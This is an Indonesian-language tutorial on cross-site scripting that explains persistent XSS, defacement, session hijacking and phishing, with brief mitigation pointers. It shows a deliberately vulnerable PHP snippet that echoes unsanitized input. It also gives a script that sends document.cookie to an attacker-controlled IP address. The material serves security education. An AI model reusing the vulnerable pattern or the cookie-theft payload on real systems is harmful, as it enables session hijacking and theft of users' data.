### Injection - XSS

#### XSS Attack Type

**Website Defacement** juga dapat terjadi karena serangan **XSS**. 

Serangan dengan tipe **Persistent XSS Attack** dapat digunakan untuk melakukan **Website Defacement**, sebab **malicious script** tersimpan di server. **Website Defacement** dapat menyeluruh atau Substansial saja pada **element HTML** tertentu.



Serangan **XSS**, terjadi pada **surface client side**. Penyerang akan menyisipkan **malicious script** ke dalam **website** yang legit di mata pengunjung (korban). Jika serangan berhasil dilakukan dan tidak diketahui oleh **developer web application** itu sendiri, selanjutnya serangan terjadi saat korban mengunjungi **web application** yang telah terinfeksi **XSS Attack**. 

**Web Application** akan menjadi medium **attacker** untuk menyerang para pengunjung dan menginfeksi mereka melalui **malicious script** yang disisipkan dalam **Web Application**. 

#### Innocent Code

Serangan berupa **HTML injection** yang lolos karena **developer** tidak mampu membangun **secure code**, ketika **attacker** mengetahui terdapat **innocent code** dalam **back-end** maka exploitasi akan terus dilakukan.



Contoh **innocent code** **di back-end**,

```php
<?php
$input = $_GET["param"];
echo "<div>".$input."</div>";
?>
```

Tidak terdapat **Validation**, **Sanitazion** atau **Whitelist strategy**. 

Jika user awam yang memberikan data normalnya seperti ini :

http://www.gun.com/test.php?param= nama Maudy Ayunda.

Tapi **attacker** akan memberikan **input malicious script** yang lain misal :

http://www.gun.com/test.php?param=**<script>alert(/xss/)</script>**

Input yang dikirimkan pada kasus di atas adalah **malicious script** sederhana, realitanya lebih kompleks dan menyeramkan dari **script** di atas.

#### Session Hijacking

**Malicious Script** memiliki akses penuh terhadap seluruh **objects** dalam **browser environment**. Hal yang dapat terjadi selanjutnya adalah **session hijacking**. **Cookies** tempat menyimpan **session** bisa diambil, **attacker** dapat menyamar, mencuri data dan bertindak seolah-olah seperti pengguna (pemilik **session**). 

**Cookies** yang dicuri datanya akan dikirimkan menuju **remote server** milik **attacker** untuk disimpan.



Di bawah ini adalah contoh **malicious script** yang dapat digunakan untuk membuat **object** **image** dalam web kemudian **attribute src** yang dimiliki **element** tersebut di arahkan menuju **remote server** milik **attacker**, data yang dikirimkan adalah **cookies**.

```javascript
<script>new Image().src="http://192.168.129.11/mimiperi.php?output="+document.cookie;</script>
```

**Malicious Script** di atas dapat diinjeksikan dimana saja, **arbitrary attack** dapat dilakukan misal pada kolom komentar dalam forum, **ecommerce** yang akhirnya menimbulkan ratusan ribu atau pengguna lainnya terpancing untuk melakukan klik **HTML element** di atas. Sekali lagi **Persistent XSS Attack is killer**.

#### Phising

Ini hanyalah salah satu contoh dampak yang dapat ditimbulkan dari serangan **XSS Attack** yang kombinasinya dan kerumitannya bisa variatif, misal **XSS Attack** agar bisa melakukan serangan **phising**. Logikanya sama seperti di atas namun mengarahkan user ke alamat yang desain websitenya misal sama persis seperti facebook.

#### XSS Cheatsheet

Solusinya kita dapat mempelajari XSS Filter Evasion Cheatsheet yang disediakan OWASP, melakukan manajemen validation, Sanitation dan Whitelist Strategy : 

https://owasp.org/www-community/xss-filter-evasion-cheatsheet


# Prevention & Mitigation

Check Logs for Suspicious Activity. 

Out-of-date Software Version

Other-account on shared server? huh

Other infected application on the server? (needle in the haystack)

# Furthermore

Di bawah ini adalah buku2 yang penulis rekomendasikan untuk anda baca :



-------------

[1] RSA Whitepaper. 2016. *2016: Current State of Cybercrime*. Technical Report. RSA. 1–7.

[2] Steve Morgan. 2016. *Hackerpocalypse : A Cybercrime Revelation*. Technical Report. Cybersecurity Ventures. 1–24.

[3] PwC. 2016. *Global Economic Crime Survey 2016: Adjusting the Lens on Economic Crime*. Technical Report. PwC. 1–31.

[4] Hacktivism: A Short History. http://www.foreignpolicy.com/articles/2013/04/29/hacktivism [accessed on 13.06.13].

[5] https://www.bleepingcomputer.com/news/security/how-ryuk-ransomware-operators-made-34-million-from-one-victim/

# Web Browser

Berbicara tentang Web Security, bisa dimulai dari aplikasi browser. Sebuah pintu tempat customer kita berinteraksi dengan aplikasi yang kita ciptakan. Tugas dari aplikasi browser adalah melakukan rendering halaman web agar dapat dimengerti oleh manusia.

# HTTP

# HTTP Headers

# HTTP Cookies

# Your Security State

# Threats

# DDoS Attack

# Bug Bounty

